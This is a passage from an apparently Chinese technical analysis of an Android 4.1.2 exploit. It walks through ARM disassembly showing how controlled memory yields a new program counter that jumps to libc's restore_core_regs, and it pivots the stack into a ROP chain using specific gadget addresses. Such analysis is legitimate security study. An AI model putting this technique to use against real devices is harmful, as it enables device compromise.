 ```
LDR             R4, [R0,#4]

```

执行后，`r4 = [sa+4] = sa+8`

```
.text:0000EE46  LDR             R0, [R4,#8]

```

执行后,`r0 = [r4+8]=[sa+8+8]=[sa+0x10]=sa+24=sa+0x18`

```
.text:0000EE48LDR     R1, [R0]

```

执行后，`r1=[r0+0]=[sa+0x18]=sz+32=sa+0x20`

```
.text:0000EE4A  LDR             R2, [R1,#0xC]

```

执行后，`r2=[r1+0xC]=[sa+0x20+0xC]=[sa+0x2C]=new_pc`。执行`blx r2`跳到`new_pc`处。

**2）new_pc**

exploit中默认定义的new_pc为`0xb0002850（__dl_restore_core_regs）`，位于libc.so中。看Android 4.1.2的libc.so中的`restore_core_regs`函数：

```
.text:00010BA8      EXPORT restore_core_regs
.text:00010BA8      ADD             R1, R0, #0x34 ; Alternative name is '__restore_core_regs'
.text:00010BAC      LDMIA           R1, {R3-R5}
.text:00010BB0      STMFD           SP!, {R3-R5}
.text:00010BB4      LDMIA           R0, {R0-R11}
.text:00010BB8      LDMFD           SP, {SP-PC}

```

这段代码主要是用于pivot stack：

```
ADD             R1, R0, #0x34

```

此时`r0=sa+0x18，r1=sa+0x18+0x34=sa+0x4C`

```
.text:00010BAC      LDMIA           R1, {R3-R5}

```

将r1指向地址sa+0x4C的内容依次写到r3，r4，r5中，即`r3=sa+0x40=ROP+0x0`，`r4=0xb0002a98`，`r5=0xb00038b2+1`

```
.text:00010BB0      STMFD           SP!, {R3-R5}

```
